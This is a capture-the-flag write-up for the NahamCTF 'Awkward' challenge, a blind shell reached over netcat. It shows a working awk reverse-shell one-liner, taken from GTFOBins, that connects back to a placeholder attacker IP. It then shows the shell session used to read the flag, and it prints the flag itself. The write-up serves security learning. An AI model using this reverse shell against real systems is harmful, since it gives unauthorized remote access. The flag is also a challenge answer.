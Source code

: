 ```yaml
---
title: "NahamCTF: Awkward"
categories:
  - NahamCTF
tags:
  - NahamCTF
---
```


"No output..? Awk-o-taco.

Connect here:
nc jh2i.com 50025"

For this challenge, we get a blank shell that only returns a number, and a message when we send a command:

```
whoami

0... Well this is awkward...
```

From the name of the challenge, we can assume that we need to use awk for this. We'll use a reverse shell from GTFOBins, to give ourselves access to the box. 

*Note: We need to have a publically facing IP address to connect back to in order to return a shell to ourselves.*

Reverse Shell:
```
awk -v RHOST=xx.xx.xx.xx  -v RPORT=xx 'BEGIN {s = "/inet/tcp/0/" RHOST "/" RPORT;while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
```

We can now check in the home directory for this flag:

```
> ls -lah
total 24K
dr-xr-xr-x 1 nobody nogroup 4.0K Jun  4 19:58 .
drwxr-xr-x 1 user   user    4.0K Jun  4 18:54 ..
-rw-r--r-- 1 nobody nogroup  220 Jun  4 18:54 .bash_logout
-rw-r--r-- 1 nobody nogroup 3.7K Jun  4 18:54 .bashrc
-rw-r--r-- 1 nobody nogroup  807 Jun  4 18:54 .profile
drwxr-xr-x 1 user   user    4.0K Jun  4 19:58 this_is_where_the_flag_is_plz_dont_bruteforce

> ls this_is_where_the_flag_is_plz_dont_bruteforce
flag.txt
> cat this_is_where_the_flag_is_plz_dont_bruteforce/flag.txt
flag{okay_well_this_is_even_more_awkward}
```

**flag{okay_well_this_is_even_more_awkward}**

